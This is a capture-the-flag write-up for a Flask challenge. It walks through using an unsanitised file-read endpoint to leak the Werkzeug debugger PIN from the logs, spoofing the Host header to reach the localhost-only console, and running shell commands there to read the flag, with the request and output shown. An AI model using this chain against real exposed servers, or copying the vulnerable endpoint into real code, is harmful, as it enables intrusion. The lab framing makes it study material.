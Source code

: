 ### **Mola7ada Revenge Write-Up**

## discription 

mo7adata was mid i beet you solve this one :) , Revenge baby ;)

## flag 
NHD{machakil_f_ta7mil}

## Write-up 

After obtaining the zip file, I noticed the following line in the Dockerfile:

```dockerfile
CMD flask run --host=0.0.0.0 > /app/logs/logs.txt 2>&1
```

This command redirects the Flask application's output to `/app/logs/logs.txt`. On the host machine, the logs are saved in `./logs/logs.txt`.

During my analysis, I discovered a vulnerability in the following endpoint:

```python
@auth.route('/get_profile_pic')
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

This endpoint is vulnerable to **Local File Inclusion (LFI)**, which allows reading arbitrary files on the server. However, the flag file is randomized using the following command:

```dockerfile
RUN FLAG_NAME=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 12) && mv ./flag.txt "./${FLAG_NAME}_flag.txt"
```

This makes it difficult to guess the flag file's name directly.

---

### **Exploiting the LFI Vulnerability**

After some testing, I found that I could read the application logs using the LFI vulnerability:

```
http://192.168.11.113:5000/get_profile_pic?filename=./logs/logs.txt
```

The output revealed the following:

```
* Serving Flask app 'app.py' 
* Debug mode: on 
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead. 
* Running on all addresses (0.0.0.0) 
* Running on http://127.0.0.1:5000 
* Running on http://192.168.11.113:5000 
Press CTRL+C to quit 
* Restarting with stat 
* Debugger is active! 
* Debugger PIN: 630-138-255
```

The logs show that the Flask debugger is active, and the **Debugger PIN** is exposed. This is a critical finding because the debugger allows arbitrary code execution if accessed.

---

### **Accessing the Werkzeug Console**

I attempted to access the Werkzeug console at:

```
http://192.168.11.113:5000/console
```

However, I received the following error:

```
Bad Request
The browser (or proxy) sent a request that this server could not understand.
```

After two days of research and testing various attack vectors (including SSRF), I discovered that the `/console` endpoint is restricted to `localhost` and `127.0.0.1`. It is not accessible from external IP addresses.

---

### **Bypassing the Restriction**

To bypass this restriction, I modified the `Host` header in my HTTP request. By changing the `Host` from `192.168.11.113:5000` to `127.0.0.1`, I was able to access the Werkzeug console.

Here’s the modified request:

```
GET /console HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: __wzd7996cd05d8d38c9847ad=1737926290|efd2461c3eb9
Connection: keep-alive
```

This allowed me to access the Werkzeug console and execute arbitrary Python code.

---

### **Gaining Remote Code Execution (RCE)**

Using the Werkzeug console, I executed the following commands to enumerate the file system and retrieve the flag:

```python
>>> import subprocess
>>> print(subprocess.run("ls -la", shell=True, text=True, capture_output=True).stdout)
```

The output revealed the contents of the current directory, including the randomized flag file:

```
total 68
drwxr-xr-x 1 root root 4096 Jan 26 21:15 .
dr-xr-xr-x 1 root root 4096 Jan 26 21:15 ..
drwxrwxrwx 7 root root 4096 Jan 24 23:14 .git
drwxrwxrwx 3 root root 4096 Jan 24 23:14 .idea
drwxrwxrwx 5 root root 4096 Jan 24 23:14 .venv
-rw-rw-r-- 1 root root  733 Jan 26 04:04 08WrSq8rM2dL_flag.txt
-rw-rw-rw- 1 root root  346 Aug  9 23:09 Bloog.iml
-rw-rw-rw- 1 root root  787 Jan 26 21:15 Dockerfile
drwxrwxrwx 1 root root 4096 Jan 26 21:15 __pycache__
-rw-rw-rw- 1 root root  128 Jan 26 20:34 app.py
-rwxrwxrwx 1 root root  358 Jan 26 21:05 build.sh
drwxrwxrwx 1 root root 4096 Jan 26 20:20 instance
drwxrwxr-x 2 root root 4096 Jan 26 21:11 logs
drwxrwxrwx 4 root root 4096 Jan 24 23:14 migrations
-rw-rw-rw- 1 root root  101 Jan 25 23:58 requirements.txt
drwxrwxr-x 5 root root 4096 Jan 26 01:56 venv
drwxrwxrwx 1 root root 4096 Jan 24 23:14 website
```

Next, I read the contents of the flag file:

```python
>>> print(subprocess.run("cat 08WrSq8rM2dL_flag.txt", shell=True, text=True, capture_output=True).stdout)
```

The flag file contained the following message:

```
It's 5 AM, and this challenge has made me furious.
I spent all day trying to build a nice Werkzeug pin bypass challenge, 
but I found out that `/console` isn’t accessible from outside of localhost.

I tried so many things—one of them was an SSRF attempt to interact with the console and achieve RCE.

Honestly, this challenge feels mediocre; it could be solved in 5 minutes or even with ChatGPT.
Sorry for wasting your time, but if you’re curious about what I was trying to do, check out these resources :  
- https://werkzeug.palletsprojects.com/en/1.0.x/debug/       
- https://www.daehee.com/werkzeug-console-pin-exploit/    

Here is your flag:
NHD{machakil_f_ta7mil}
```

---

### **Note to the Developer: molzri3**

This is the first time I’ve encountered a way to bypass the Werkzeug console's IP restriction. I plan to report this issue to the Werkzeug maintainers for further investigation. I hope you enjoyed playing this challenge as much as I did!

**Edit**
i repport it and it wasnt a vulnurabilty and this was the answer :
IIRC the Host header check was added to prevent DNS rebinding attacks against a debugger running on localhost, not to restrict access to localhost when the debugger itself is exposed to an untrusted network (which NOBODY SHOULD DO as we very clearly document).

PS: Very cool idea to use an exposed werkzeug debugger as a CTF challenge! :)

---

### **References**

- [Werkzeug Debugger Documentation](https://werkzeug.palletsprojects.com/en/1.0.x/debug/)
- [Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
